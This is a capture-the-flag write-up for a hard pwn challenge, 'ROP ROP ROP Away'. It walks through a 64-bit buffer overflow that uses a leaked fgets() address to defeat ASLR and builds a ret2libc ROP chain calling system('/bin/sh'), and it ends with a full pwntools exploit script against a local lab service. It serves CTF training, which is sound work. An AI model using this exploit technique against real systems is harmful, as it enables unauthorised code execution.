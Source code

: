 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: ROP ROP ROP Away
### Category: Pwn
### Difficulty: Hard
<hr>

#### Challenge Description
This challenge is intended to challenge users to use their knowledge of buffer overflow to bypass ASLR using a leaked function address. The binary and libc library are available to the players so they can craft payloads.

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-1.png)

#### Solution
Using standard techniques, the player will discover that the buffer size before hitting the instruction pointer is **40 bytes**.

The player should notice that ASLR is enabled using any available method, for example here is how to find out ASLR is enabled by running `checksec`.


![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-2.png)

Since the address of `fgets()` is leaked and the libc file is provided, you can calculate the libc base address by subtracting the offset at which `fgets()` is located in the libc file. Here is an example of finding that offset by using `readelf`.

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-3.png)

Since this is x64 binary, we need to find a ROP gadget that will allow us to `pop rdi`. This is how we can get our shellcode to execute. We can use the tool `ROPGadget` for this. 

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-4.png)

We also need a `ret` instruction, let’s find one too.

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-5.png)

Now that we have everything, we simply craft a payload that will consist of `40*A`, our `pop rdi`, the address of `/bin/sh` from inside the libc binary, a `ret` instruction and finally the address of `system()` from the libc. This is just standard x64 ROP buffer overflow.

#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/rop_rop_rop_away-6.png)


#### Exploit Script
```py
from pwn import *

HOST = '127.0.0.1'
PORT = 9999

# Splash screen for fun
splash()

# Connect to target
conn = remote(HOST, PORT)

# Read the address of gets
conn.recvuntil('is at ')
gets_address = int(conn.recvline().strip(), 16)
info('gets() is at ' + hex(gets_address))

# Read the libc
libc = ELF('./files/libc.so.6')
libc.address = gets_address - libc.symbols['fgets']
info('libc base is at ' + hex(libc.address))

# Build the exploit
system = libc.symbols['system']
bin_sh = next(libc.search(b'/bin/sh'))
ret = 0x0000000000400292
pop_rdi = 0x0000000000400693
rop_chain = [
    pop_rdi, bin_sh,
    ret,
    system
]

payload = b'A'*40 + b''.join([ p64(r) for r in rop_chain ])

# Recieve everything to prepare to send exploit
conn.recv()

# Send payload
info('ROP CHAIN: filler + pop_rdi + bin_sh + ret + system')
info(f'pop_rdi: {hex(pop_rdi)}')
info(f'bin_sh: {hex(bin_sh)}')
info(f'ret: {hex(ret)}')
info(f'system: {hex(system)}')
info('Sending exploit...')
conn.sendline(payload)
success('Target exploited! Getting flag...')

# Get flag
conn.recv()
conn.recv()
conn.sendline('/bin/cat /etc/flag.txt')
success(conn.recvline().decode('utf-8'))
conn.sendline('exit')
conn.close()
```

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>
